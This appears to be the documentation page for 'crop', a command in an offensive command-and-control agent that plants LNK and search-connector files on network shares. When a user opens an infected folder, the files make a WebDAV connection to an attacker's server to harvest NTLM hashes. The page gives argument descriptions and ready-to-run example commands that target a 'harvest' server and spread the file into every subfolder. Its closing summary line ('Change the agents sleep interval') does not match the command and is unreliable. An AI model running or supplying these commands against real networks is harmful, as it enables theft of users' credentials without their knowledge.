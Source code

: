 +++
title = "crop"
chapter = false
weight = 10
hidden = false
+++

## Summary
Drop a file for collecting hashes on a network

  
- Needs Admin: False  
- Version: 1  
- Author: @domchell, @checkymander   

### Arguments

#### targetLocation

- Description: The location to drop the file 
- Required Value: False  
- Default Value: 

#### targetFilename

- Description: The filename.  
- Required Value: False  
- Default Value:  

#### targetPath

- Description: Webdav path location  
- Required Value: False  
- Default Value:  

#### targetIcon

- Description: LNK Icon location  
- Required Value: False  
- Default Value:  

#### recurse

- Description: Write the file to every sub folder of the specified path
- Required Value: False  
- Default Value:  

 #### clean

- Description: Remove the file from every sub folder of the specified path 
- Required Value: False  
- Default Value:  

## Usage
```
Crop https://github.com/mdsecactivebreach/Farmer
    created by @domchell

Crop is a tool that can create LNK files that initiate a WebDAV connection when browsing to a folder where it's stored.

Supported LNK types: .lnk, .url, .library-ms, .searchconnect-ms

Drop an LNK file
crop -targetLocation \\myserver\shared\ -targetFilename Athena.lnk -targetPath \\MyCropServer:8080\harvest -targetIcon \\MyCropServer:8080\harvest\my.ico

Drop a .searchconnect-ms
crop -targetLocation \\myserver\shared\ -targetFilename Athena.searchconnector-ms -targetPath \\MyCropServer:8080\harvest -recurse  
```


## Detailed Summary

Change the agents sleep interval.
